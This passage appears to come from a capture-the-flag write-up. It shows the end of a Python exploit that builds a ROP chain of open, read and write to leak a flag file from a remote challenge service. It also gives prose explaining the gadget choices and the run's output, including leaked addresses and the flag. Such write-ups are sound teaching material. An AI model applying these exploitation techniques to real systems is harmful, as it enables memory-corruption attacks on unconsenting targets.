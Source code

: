```python
rop += p64(libc.sym.read)

rop += p64(pop_rdi)
rop += p64(1) # stdout
rop += p64(pop_rsi)
rop += p64(return_address + 0x300) # scratch space down stack
rop += p64(pop_rdx_r12)
rop += p64(100) + p64(0)
rop += p64(libc.sym.write)

rop += cyclic(0x200 - len(rop))
rop += b'./flag.txt\0'

payload  = b''
payload += p64(len(rop))
payload += p64(return_address)

write(p, 0, payload)
write(p, 7, rop)
exit(p)

flag = p.recvuntil(b'}').decode()
p.close()
print(flag)
```

Finally, our ROP chain.  Since we have libc, we have all the gadgets we could ever need.

If you're wondering why `pop rdx; pop r12` vs. just `pop rdx`, well that code above to find gadgets is not very smart and will find in most glibcs `pop rdx` in a non-executable section.  So I usually search for `pop rdx; pop r12`.

The `xchg eax, edi` gadget is used to set `rdi` with the FD (`eax`) returned by `open`.

> _Why not use `mov`?_ Well, there wasn't a simple gadget for that.

The ROP chain above has 3 sections, `open` [the flag], `read` [the flag and store down stack], `write` [the flag to stdout].

After the `open` call, the file descriptor (FD) needs to be passed to `read`, hence the `xchg`, however most of the time you can just hard code it to `3` or `4` depending on the challenge, but hard-coding sucks.

The `read` and `write` sections should be easy to understand.

Unsure of how long the ROP chain was going to be while developing it, so I set the flag file name to be `0x200` bytes down stack, then just appended to the ROP chain with cyclic padding.  Also down stack is the scratch space for storing the flag after `read`.

It's basically the same cycle as before, write to index 0 the length and address followed by a read or write using index 7.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to mc.ax on port 31245: Done
[*] libc.address: 0x7fc52e593000
[*] environ: 0x7ffc4a1738a8
[*] return_address: 0x7ffc4a173768
[*] Closed connection to mc.ax port 31245
dice{glibc_2.34_stole_my_function_pointers-but_at_least_nobody_uses_intel_CET}
```
